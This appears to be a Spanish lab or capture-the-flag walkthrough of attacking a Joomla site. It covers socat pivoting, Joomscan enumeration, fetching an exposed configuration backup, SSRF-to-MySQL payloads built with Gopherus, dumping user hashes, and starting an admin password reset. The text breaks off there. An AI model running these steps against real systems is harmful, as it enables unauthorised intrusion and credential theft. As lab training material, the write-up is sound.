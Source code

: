````
./socat TCP-LSITEN:443, fork TCP:<ipa>:80
````

## Joomla Enumeration - Joomscan

https://github.com/OWASP/joomscan

````
proxychains perl joomscan.pl -u http://<ip2>/joomla/ 2>/dev/null 
````

![](https://uuqke3c479llohf3.public.blob.vercel-storage.com/Pasted%20image%2020240421200429.png)
Podemos ver la interfaz de administrador expuesta y un fichero de configuración expuesto.

1. Descargamos el fichero de configuración

````
proxychains curl -s -X GET http://<ip2>/joomla/configuration.php.bak
````

![](https://uuqke3c479llohf3.public.blob.vercel-storage.com/Pasted%20image%2020240421200714.png)
Podemos identificar como:

* La base de datos se llama Joomla de mysql
* El usuario es goblin
* No tiene contraseña

## Gopher + SSRF

Como tenemos un SSRF y la bbdd sin contraseña podemos utilizar Gopherus
https://github.com/tarunkant/Gopherus

````
gopherus --exploit mysql
````

\*\*![](https://uuqke3c479llohf3.public.blob.vercel-storage.com/Pasted%20image%2020240421201141.png)
Esto genera una petición que deseemos a través de Gopher para poder lanzarla a la BBDD por el SSRF
![](https://uuqke3c479llohf3.public.blob.vercel-storage.com/Pasted%20image%2020240421201339.png)
Insertamos con está técnica las siguientes peticiones a la BBDD

* SHOW databases;
* USE joomla; show tables;
* USE joomla; describe joomla_users;
* USE joomla; select name,username,email,password from joomla_users;  
  La contraseña que obtenemos esta cifrada, pero no conseguimos romperla con john

Entonces cambiamos la contraseña en la BBDD

1. Creamos la contraseña

````
echo -n "password123" | md5sum
````
